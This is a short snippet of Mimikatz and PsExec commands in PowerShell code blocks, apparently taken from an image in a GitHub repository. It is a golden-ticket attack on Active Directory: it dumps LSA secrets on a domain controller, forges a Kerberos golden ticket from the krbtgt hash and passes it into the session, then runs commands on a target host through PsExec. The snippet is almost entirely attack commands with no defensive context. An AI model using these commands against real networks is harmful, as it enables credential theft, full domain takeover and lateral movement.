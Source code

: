 ```powershell
privilege::debug
lsadump::lsa /patch # COmmand run from the Domain Controller
```

```powershell
kerberos::purge
```

```powershell
kerberos::golden /user:$ACUTAL_USERNAME /domain:$DOMAIN /sid:$DOMAIN_SID /krbtgt:$HASH /ptt
misc::cmd
```

```powershell
PsExec.exe \\$TARGET $COMMAND # The target can be Domain Controller like DC01
```